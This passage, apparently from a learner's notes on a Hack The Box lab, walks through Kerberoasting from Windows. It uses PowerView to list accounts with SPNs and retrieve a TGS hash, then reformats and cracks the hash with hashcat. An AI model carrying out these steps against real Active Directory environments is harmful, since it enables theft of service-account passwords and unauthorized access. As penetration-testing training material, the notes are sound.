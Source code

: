 Above will create `crack_file`. 

Let's format it once again to use it with hashcat:

```shell-session
jadu101@htb[/htb]$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```


Finally, let's crack the ticket using hashcat:

```shell-session
jadu101@htb[/htb]$ hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

# Automated Way

Above we learned about older-manual way of kerberoasting on Windows. 

Now let's learn about quicker way to perform Kerberoasting from Windows.

## PowerView 
### SPN Get

Let's first get the SPNs using PowerView:

```powershell-session
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname

samaccountname
--------------
adfs
backupagent
krbtgt
sqldev
sqlprod
sqlqa
solarwindsmonitor
```

### Target Specific User

Now that we have list of SPNs, let's use PowerView to target a specific user and retrieve the TGS ticket in hashcat format:

```powershell-session
PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

SamAccountName       : sqldev
DistinguishedName    : CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433*$BF9729001
                       376B63C5CAC933493C58CE7$4029DBBA2566AB4748EDB609CA47A6E7F6E0C10AF50B02D10A6F92349DDE3336018DE177
                       AB4FF3CE724FB0809CDA9E30703EDDE93706891BCF094FE64387B8A32771C7653D5CFB7A70DE0E45FF7ED6014B5F769F
```

